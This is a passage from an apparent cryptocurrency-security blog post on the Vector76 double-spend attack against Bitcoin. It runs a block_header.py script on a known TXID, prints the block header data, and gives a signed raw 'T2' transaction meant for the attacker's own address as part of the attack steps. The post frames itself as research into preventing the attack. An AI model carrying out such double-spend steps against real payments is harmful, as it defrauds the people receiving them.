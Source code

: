 

<p>To add an option to an empty field, we need to get input data for certain values ​​to configure the mining block. To do this, run the&nbsp;<strong><em>Python</em></strong>&nbsp;script:&nbsp;<a href="https://github.com/smartiden/Broadcast-Bitcoin-Transaction/blob/main/block_header.py"><strong>block_header.py</strong></a><strong>&nbsp;and enter the UTXO</strong>&nbsp;value we know,&nbsp;which we previously added to the&nbsp;<strong>Prev TXID</strong>&nbsp;option hash when creating&nbsp;<strong>the Raw</strong>&nbsp;transaction&nbsp;<strong>Prev TXID&nbsp;: 3141bd1a32ac5e5b1a0de837faceccbc78f80f277c060855eab23be0fbe6e861</strong></p>



<p><strong>UTXO</strong>&nbsp;allows for more efficient transaction processing, as each transaction output can only be used once&nbsp;<em>(this simplifies the management of the Bitcoin network state and reduces the complexity of verifying Raw transactions)</em>&nbsp;.</p>



<pre class="wp-block-code"><code><strong>!python3 block_header.py</strong>

<strong>3141bd1a32ac5e5b1a0de837faceccbc78f80f277c060855eab23be0fbe6e861</strong>
</code></pre>



<figure class="wp-block-image"><a href="https://github.com/demining/Vector76-Attack/blob/main/Vector76%20Attack%20Researching%20and%20Preventing%20Threats%20to%20the%20Bitcoin%20Network%20Detailed%20Cryptanalysis%20Based%20on%20Real%20Data%20-%20CRYPTO%20DEEP%20TECH_files/image-28-1024x346.png" target="_blank" rel="noreferrer noopener"><img src="https://github.com/demining/Vector76-Attack/raw/main/Vector76%20Attack%20Researching%20and%20Preventing%20Threats%20to%20the%20Bitcoin%20Network%20Detailed%20Cryptanalysis%20Based%20on%20Real%20Data%20-%20CRYPTO%20DEEP%20TECH_files/image-28-1024x346.png" alt="Vector76 Attack: Researching and Preventing Threats to the Bitcoin Network Detailed Cryptanalysis Based on Real Data"/></a></figure>



<p>Let’s copy the received data:</p>



<pre class="wp-block-code"><code><strong>Enter TXID: 3141bd1a32ac5e5b1a0de837faceccbc78f80f277c060855eab23be0fbe6e861
Block Header:
Block: 00000000000000000003e5557c14e955f2c88465bb8c02a4d694a3657a40d79e
Block Height: 808875
Mined Time: 2023-09-22T17:29:25Z
Prev Block: 000000000000000000048e0643366b7c0129d2dd8d2cf758ca6273ed81c765d8
Merkle Root: c1fc30413e984cdd90dc1ac91a69add6c138af950e1c6388cb20759494073d2c
Nonce: 1098256692
Bits: 386198911
Version: 536903680</strong></code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>Let’s add&nbsp;<strong>RawTX for&nbsp;</strong><strong>T2</strong>&nbsp;transaction&nbsp;<em>(for ourselves)</em></p>



<pre class="wp-block-code"><code><strong>Bitcoin Transaction RawTX:
010000000161e8e6fbe03bb2ea5508067c270ff878bccccefa37e80d1a5b5eac321abd4131000000006a473044022027033ea1c9df979fe39b016ee9ef446fab3e87dd4514623ad8a655e8eab31f0002201b58688b9949a8b9b05cb74b3bd829f6c134c5bef132e9df0eafeea9585abc45012102650afad13f8fb85925ba6765dc5416bad623cdfce3f104191964253a12ed0cddfdffffff01d0000107000000001976a914093c5fd87ffc1f2bb3a58ffec06976c5c760d04988ac00000000</strong></code></pre>
